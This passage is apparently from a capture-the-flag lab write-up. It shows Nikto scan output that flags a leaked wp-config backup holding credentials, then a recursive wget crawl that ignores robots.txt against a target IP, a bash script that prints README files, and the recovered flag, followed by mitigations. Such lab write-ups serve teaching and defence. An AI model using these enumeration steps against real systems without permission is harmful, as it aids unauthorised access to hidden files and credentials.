 ```
+ /admin/index.php: This might be interesting: has been seen in web logs from an unknown scanner.
+ /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
+ 8118 requests: 7 error(s) and 13 item(s) reported on remote host
+ End Time:           2025-06-05 11:19:23 (GMT8) (27 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```

## Exploit: .hidden/ directory
### Enumeration
The `.hidden/` directory listing contains multiple nested obfuscated directory names and random plaintext README files in some.

![image](https://hackmd.io/_uploads/HkaDqC1Qge.png)

### Solution
`wget` is used with the `--execute robots=off` options to ignore the `robots.txt` used in the server that disallows crawlers to access the `.hidden` endpoint. The purpose of this command is to scrape all the files recursively into host machine for further processing

```
 wget   --recursive   --no-parent   --no-check-certificate   --execute robots=off   $TARGET_IP/.hidden/
```

A script is then used to just simply print out any README file it encounters

```bash=
# finder.sh
# Set the starting directory
START_DIR="${1:-.}"  # Default to current directory if not provided

# Traverse recursively and find README files (case-insensitive)
find "$START_DIR" -type f -iname "README*" | while read -r file; do
    cat "$file"
done
```

Run the script in the extracted directory and filter out any output that may resemble a flag, and the flag can be obtained

```
┌──(nszl㉿LAPTOP-EREU4AFG)-[~/192.168.100.130/.hidden]
└─$ bash finder.sh | grep flag
Hey, here is your flag : d5eec3ec36cf80dce44a896f961c1831a05526ec215693c8f2c39543497d4466
^C
```

> The flag is `d5eec3ec36cf80dce44a896f961c1831a05526ec215693c8f2c39543497d4466`
 
### Mitigations
- robots.txt can be specifically ignored
- hidden directories can still be accessed manually
- Do not make sensitive information servable
